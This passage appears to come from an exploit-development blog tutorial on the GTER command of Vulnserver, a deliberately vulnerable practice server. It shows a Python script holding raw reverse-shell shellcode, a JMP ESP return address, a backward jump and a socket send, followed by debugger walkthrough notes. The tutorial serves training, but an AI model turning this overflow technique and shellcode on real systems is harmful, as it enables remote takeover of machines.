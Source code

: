 ``` python
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    CUSTOM_SHELL +
    b'A' * (147 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```

It looks simpler\! Now, run it to see what happens:

<div class="imgblock">

![Take 1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331147/blog/vulnserver-gter-no-egghunter/take1_y3ehtd.gif)

</div>

Uhmmm, we got the reverse connection but no shell\!

Let’s see what is going on:

<div class="imgblock">

![Take 1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331149/blog/vulnserver-gter-no-egghunter/take2_bsaxnn.gif)

</div>

As we can see, several things have happened:

1. Our buffer was correctly delivered.

2. The `JMP ESP` instruction was successfully triggered.

3. The jump backward occurred.

4. And we landed at the start of our custom shellcode.

However, if you look carefully at this image:

<div class="imgblock">

![ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331147/blog/vulnserver-gter-no-egghunter/esp1_uhrqpf.webp)
